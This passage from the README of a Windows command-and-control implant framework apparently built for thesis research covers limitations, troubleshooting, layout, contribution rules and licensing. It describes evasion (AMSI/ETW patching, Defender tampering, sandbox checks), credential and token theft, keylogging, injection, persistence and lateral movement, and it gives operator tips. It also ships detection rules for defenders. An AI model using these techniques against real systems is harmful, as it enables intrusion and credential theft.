| String obfuscation is compile-time and folding-dependent | Every literal now has its own splitmix64 keystream (build salt ⊕ rotating key ⊕ call-site id), so single-key inversion and identical-ciphertext grouping both fail. But the scheme lives entirely in the binary's logic, and whether a given site actually avoids the binary depends on the compiler folding the constexpr construction — an optimisation, not a language guarantee. `tests/check_strings.py` scans every release artifact in CI and fails on any surviving plaintext string. |
| Indirect syscalls hide the instruction, not the call | The trampoline jumps into ntdll's own `syscall; ret`, so the instruction location is legitimate and, when the target stub is intact, the SSN in `eax` matches the stub it executes from. The return address on the stack still points into the trampoline's private RX page rather than a signed module; kernel callbacks and ETW-TI see every syscall regardless, and call-stack spoofing is not implemented. |
| **State is durable only when a database is configured** | The default `db_path` is `:memory:` (importing the module must not create files), so a server started without `--db` still loses history on restart. `simpleserver.sh` and the documented VPS/systemd paths always pass a file. The database is a local file and is **not encrypted at rest** — treat it like the audit trail: lab data, restricted permissions, not a secret store. |
| No asymmetric operator auth | The operator token is a shared bearer secret over the dashboard/CLI; there is no per-user identity, so the audit trail attributes actions to tokens and IPs, not people. |
| Token stealing is `winlogon`-specific | `steal_token` targets `winlogon.exe` by name and needs the privileges to open it; on non-elevated runs it fails rather than degrading. |
| Chrome app-bound encryption | Chrome ≥ 127 `v20` blobs are detected and reported as **not recoverable**; Edge is unaffected. This is an honest scope boundary, not a defect. |
| Windows-only, x64-only | Syscall stubs use `4C 8B D1 B8` (x64) patterns; no ARM64 or 32-bit support, no cross-platform implant. |
| AMSI/ETW patching is per-process | It silences in-process reporting for the implant only; it does not disable system-wide EDR telemetry, and modern EDRs detect the patch itself. |
| **Defender tampering is usually blocked, and its cmdlet text is invisible to Sysmon** | On Windows 10/11 with tamper protection on, `Set-MpPreference` and the policy keys are commonly rejected or ignored; `!defender` reports that rather than pretending otherwise. All cmdlet vectors run through `powershell -EncodedCommand`, so event id 1 carries the encoded blob — recovering the cmdlet needs PowerShell script-block logging (4104), which is why the cmdlet arms and T1518.001 are recorded as gaps where Sysmon cannot see them. |
| **No destructive disk capability, on purpose** | `disk.cpp` reads a single sector and has no write path; MBR/partition-table corruption (T1561.002, T1542.003) is not implemented. Beyond the obvious blast-radius argument, a raw overwrite emits no event in this profile, so it would add nothing measurable — the write half is a documented telemetry gap, and a destructive trigger belongs to the operator's own VM tooling. Run destructive experiments in a snapshotted, offline VM, never from the implant. |
| Module stomping damages the host module | The overwritten `.text` is not restored, so the target must not call into that DLL afterwards, and the payload thread starts at a module base rather than an exported entry point — both are EDR heuristics. Sysmon sees the remote `LoadLibraryW` (EID 8/10) but not the stomp itself. |
| Beacon cadence is a signature | Jitter hides fixed intervals from naive thresholds but the 18–24 s volume and cadence remain highly regular. Rapid-poll shell mode (1 s) is trivially visible on the wire. |
| Manual enrollment is optional | `--auto-accept` accepts every agent that presents the beacon token — convenient in a lab, unsafe anywhere a token could leak. |

---

## 19. Troubleshooting

| Symptom | Cause | Fix |
|---|---|---|
| `[!] x86_64-w64-mingw32-g++ not found` | Toolchain missing | `sudo ./build.sh --setup` |
| `[!] invalid beacon token` | Token outside 16–128 `[A-Za-z0-9_-]` | Press Enter at the prompt to generate a valid one |
| `[!] invalid C2 host` | Host contains a scheme, path or spaces | Pass a bare hostname, e.g. `C2_HOST=abc.ngrok-free.dev` |
| `--tls needs pyOpenSSL` | `ssl_context="adhoc"` requires it | `pip install pyOpenSSL` |
| `[!] Missing: pip install flask` / `requests` | Server dependencies absent | `pip install -r server/requirements.txt` |
| `No C2 URL configured` / `No operator token` | CLI has no config source | `--url/--token`, or `GHOST_C2_URL`/`GHOST_OPERATOR_TOKEN`, or `c2_cli.py config set` |
| `401` from the CLI or no beacon accepted | Beacon/operator token mismatch with the server | Start the server with the **same** token `build.sh` used; changing it invalidates existing implants — rebuild |
| `No active sessions. Retrying…` | Implant never reached the server, or it was rejected | Check the tunnel URL, `--auto-accept`, then VM egress/DNS. Confirm with `c2_cli.py ping` |
| Agent appears then disappears | Idle beyond `session_ttl`, or the VM was snapshotted/restored | Re-run the implant; raise `session_ttl` for long demos |
| Session never executes tasks | New session pending approval | Accept it in the dashboard or `POST /sessions/<sid>/accept` |
| `waiting…` then `Timed out waiting for result (90 s)` | Beacon interval longer than the CLI timeout, or the task is slow (large upload) | `!shell` for rapid polling, `results <sid>` later, or `sleep 5` to shorten the interval |
| Screenshot is a corrupt/blank image | Result truncated in transit | Expected only if the 32 MB exemption is exceeded — capture at a lower `scale` |
| Nothing persists after reboot | Non-elevated run skips HKLM/HIGHEST paths and Defender exclusion | Run once elevated to exercise the privileged branches |
| Implant idles forever on a VM | Sandbox heuristic (uptime under 240 s and fewer than 50 processes) | Let the VM sit at a logged-in desktop for a few minutes, or build `--debug` (checks disabled) |
| VNC viewer shows nothing | `!vnc` **dials out**, so the viewer must listen first | Start `vncviewer -listen` (or an ngrok TCP endpoint in front of it) **before** tasking `!vnc <host:port>`; `nc -l <port>` only proves the connection lands, it cannot render a desktop |
| `[app-bound encrypted - not recoverable]` | Chrome ≥ 127 v20 entries | Expected and documented; see [Limitations](#18-known-limitations-and-scope) |
| Two identical sessions in the list | Same session id with different per-run ids after a restart | Normal — the 8-hex run id distinguishes them |

---

## 20. Project layout

```text
ghostimplant/
├── include/
│   ├── c2.hpp              beacon loop + task dispatcher interface
│   ├── config.hpp          build-time knobs, timing, output caps
│   ├── obfuscate.hpp       XS/XSW XOR strings, FNV-1a, HashProc
│   ├── ghostcore.hpp       platform-free core: base64, hex parser, JSON escape, keystream
│   ├── syscalls.hpp        Nt* prototypes + resolved syscall table
│   ├── evasion.hpp         AMSI/ETW/HWBP, sandbox, wake lock
│   ├── injection.hpp       injection + PPID spoofing
│   ├── persistence.hpp     registry / WMI / scheduled task install + remove
│   ├── keylog.hpp          hook lifecycle
│   ├── doh.hpp             DNS-over-HTTPS fallback resolution interface
│   └── vnc.hpp             reverse-VNC server interface
├── src/
│   ├── main.cpp        (374)   entry, PEB spoof, self-install, supervisor, startup order
│   ├── c2.cpp          (2480)  transport (+DoH fallback), ECDH/AES, beacon loop, command table, all handlers
│   ├── doh.cpp         (263)   RFC 8484 query build/parse, one-shot HTTPS POST to the resolver
│   ├── defender.cpp    (340)   Defender exclusions, monitor disable, ASR, posture JSON, restore
│   ├── disk.cpp        (124)   read-only raw sector access + MBR/partition-table parse (T1006)
│   ├── privesc.cpp     (311)   UAC bypass, service control, bounded LSASS read (statistics only)
│   ├── lateral.cpp     (244)   remote WMI / WinRS / admin-share+scheduled-task movement
│   ├── utils.cpp       (526)   AES-GCM + ECDH via BCrypt, base64, SHA-256, RunHiddenCapture/RunFilelessPS, system info, jitter
│   ├── vnc.cpp         (415)   reverse RFB 3.3 server, tile diffing, SendInput replay
│   ├── syscalls.cpp    (438)   Hell's Gate + Halo's Gate, direct + indirect trampolines
│   ├── injection.cpp   (591)   remote-thread + APC + module-stomping chains, PPID spoofing
│   ├── evasion.cpp     (347)   AMSI/ETW patching, HWBP clear, sandbox, Defender exclusion, wake lock
│   ├── persistence.cpp (327)   three install vectors + symmetric removal
│   └── keylog.cpp      (121)   WH_KEYBOARD_LL hook + circular buffer
├── server/
│   ├── c2_server.py    (2083)  Flask REST, crypto, queues, audit, web dashboard
│   ├── c2_cli.py       (1011)  operator console + subcommands + reverse listener
│   ├── db.py           (420)   SQLite store: sessions, tasks, results, audit, payload
│   ├── requirements.txt
│   └── ghost-c2.service        systemd unit for lab-VPS hosting
├── tests/
│   ├── test_protocol.py       36 end-to-end channel checks
│   ├── test_core.cpp           35 unit checks on the platform-free core (CI job 4)
│   ├── test_persistence.py    37 durability checks against the SQLite store
│   ├── check_strings.py        release-artifact plaintext scan (CI)
│   ├── browser_dump.ps1        source of truth for the embedded recovery script
│   ├── gen_browser_chunks.py   PowerShell → XSW chunks in c2.cpp
│   ├── verify_chunks.py        chunk ↔ script byte equality
│   └── test_browser.ps1        synthetic-profile recovery test
├── resources/                  PE version resource, manifest, prank wallpaper
├── detections/
│   ├── check_coverage.py       coverage gate (CI job 3)
│   ├── sigma/                  22 rules, one per documented behaviour
│   └── sysmon/                 sysmon-ghost.xml collection profile
├── .github/workflows/ci.yml    protocol + persistence tests + MinGW cross-compile + detection gate
├── simpleserver.sh             one-command lab bring-up (up / down / status / logs / reset)
└── build.sh                    cross-compile, strip, timestamp randomization
```

Lab artefacts (`server/lab/`: generated secrets, the SQLite database, logs, PID files) are
gitignored — `./simpleserver.sh` creates them on first run and `reset` clears the state.

---

## 21. Contributing

Contributions aimed at **research and detection value** are welcome.

1. Branch from `main`; keep one technique per change so it stays individually measurable.
2. Implant work must stay warning-clean with MinGW `-Wall -Wextra` and must not add API name or
   URL string literals — use `XS`/`XSW`/`FNV`/`HASHPROC`.
3. Pure logic — string codecs, parsers, keystreams — belongs in `include/ghostcore.hpp` with a
   case in `tests/test_core.cpp`; if something only compiles on Windows, it is not core.
4. Any protocol change requires a matching case in `tests/test_protocol.py`; all CI jobs must pass.
5. Add or update the [ATT&CK row](#16-mitre-attck-mapping) and the [detection guidance](#17-detection-guidance)
   for anything new — an undocumented technique has no research value.
6. Never commit tokens, tunnel URLs, `build/` output, `.exe` artifacts, or captures from a real target.
7. Keep the authorized-use notice intact in any derived documentation.

---

## 22. Roadmap

- [x] DNS-over-HTTPS fallback resolution (RFC 8484) — `doh.cpp`, `GHOST_DOH_URL`, `!doh`, and the resolver-connection rule it feeds
- [ ] Optional server-certificate pinning in the implant (closes the active-MITM gap)
- [ ] Detection-validation harness that emits ATT&CK coverage matrices from the audit trail
- [x] Persistent server state (SQLite) so restarts keep sessions, results and audit history — `server/db.py`, `--db`, 37-check persistence suite
- [ ] Per-operator identities instead of one shared bearer token
- [x] One-command lab bring-up — `simpleserver.sh up|down|status|logs|reset`
- [ ] Operator documentation + architecture chapter for the thesis write-up

---

## 23. License and permitted use

This project is **not** offered under an open-source license. No file named `LICENSE` exists in the
repository and all rights are reserved by the author; the badges above describe it as restricted and
research-only on purpose.

Permission is granted to use, modify and study GHOST **only** for:

- academic research and thesis work on Windows internals, adversary emulation and detection engineering;
- security testing of systems **you own**, or that you have explicit written authorization to test;
- isolated, non-production laboratory environments with no real credentials or user data.

Use for unauthorized access, credential theft against real persons, or deployment outside a lab is
prohibited. Requests beyond that scope should go to the repository owner.

---

## 24. Disclaimer

This software is provided for **educational and authorized research purposes only**. It implements
techniques that are illegal to use against systems you do not own or lack written authorization to
test. The author does not endorse, support or condone unauthorized access, malicious activity, or any
misuse of this software. Use it only inside isolated, authorized laboratory environments, and restore
your VM snapshots when a run finishes.

<div align="center">

*Research. Emulate. Detect. Improve.*

</div>
